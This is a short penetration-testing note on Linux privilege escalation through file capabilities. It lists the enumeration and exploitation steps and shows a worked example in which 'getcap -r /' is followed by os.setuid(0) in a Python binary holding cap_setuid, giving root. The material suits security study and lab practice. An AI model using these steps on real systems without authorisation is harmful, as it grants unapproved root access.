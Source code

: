 # Privilege Escalation via Capabilities

---

## What are Capabilities?

See [[capabilities|here]].

---

## Capabilities Privilege Escalation Process

1. [[capabilities#List All Binaries with Capabilities|List all executables configured with a capability]]
2. For each executable configured with a capability:
	- For each capability configured on the executable:
		- [[capabilities#Short Description of Each Capability https book hacktricks xyz linux-unix privilege-escalation linux-capabilities|Research the capability]] and determine if it can be used to elevate privileges
		- Exploit the executable to elevate privileges

---

## Exploit Python `cap_setuid` Capability

```bash
$ getcap -r / 2>/dev/null
...
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
...

$ /usr/bin/python3.8
>>> import os
>>> os.setuid(0)
>>> # do things
```
